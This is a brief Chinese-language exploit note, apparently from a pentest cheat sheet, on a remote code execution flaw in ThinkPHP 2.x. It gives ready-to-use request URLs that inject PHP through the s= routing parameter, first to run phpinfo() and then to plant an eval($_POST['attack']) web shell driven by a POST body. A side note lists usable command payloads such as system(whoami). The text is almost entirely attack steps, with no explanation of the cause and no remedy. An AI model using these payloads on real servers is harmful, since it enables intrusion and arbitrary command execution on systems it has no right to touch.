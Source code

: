 # 任意代码执行漏洞

`ThinkPHP` `2.x`

1. 访问对应地址
    
    <aside>
    💡 可用：system(id)，system(whoami)，passthru(whoami)，不能存在空格
    
    </aside>
    
    ```jsx
    URL http://[ip:port]/index.php?s=/index/index/name/${@phpinfo()}
    ```
    
2. 获取Shell
    
    ```jsx
    URL http://[ip:port]/index.php?s=/index/index/name/${@print(eval($_POST[‘attack’]))}
    ```
    
    ```jsx
    POST attack=[cmd line]
    ```